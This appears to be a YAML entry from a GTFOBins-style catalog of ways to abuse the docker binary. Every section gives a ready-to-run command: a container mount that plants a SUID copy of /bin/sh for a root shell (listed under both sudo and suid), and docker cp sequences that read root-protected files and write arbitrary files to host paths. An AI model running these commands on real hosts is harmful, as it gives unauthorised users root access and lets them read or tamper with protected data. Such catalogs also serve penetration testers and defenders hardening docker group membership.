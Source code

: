 ```yaml
---
functions:
  sudo:
    - description: Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
      code: |
        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
    - description: Read any file by copying it to an existing container and back to a new location on the host. 
      code: |
        CONTAINER_ID=existing-docker-container
        sudo docker cp /root/protected.txt $CONTAINER_ID:/tmp/file.txt
        sudo docker cp $CONTAINER_ID:/tmp/file.txt /home/user/file.txt
        cat /home/user/file.txt
    - description: Write any file by copying it to an existing container and back to the target destination on the host. The file will be owned by root.
      code: |
        CONTAINER_ID=existing-docker-container
        echo "sensitive config" > /tmp/file.txt
        sudo docker cp /tmp/file.txt $CONTAINER_ID:/tmp/file.txt
        sudo docker cp $CONTAINER_ID:/tmp/file.txt /target/destination.txt
  suid:
    - description: Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
      code: |
        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
---
```

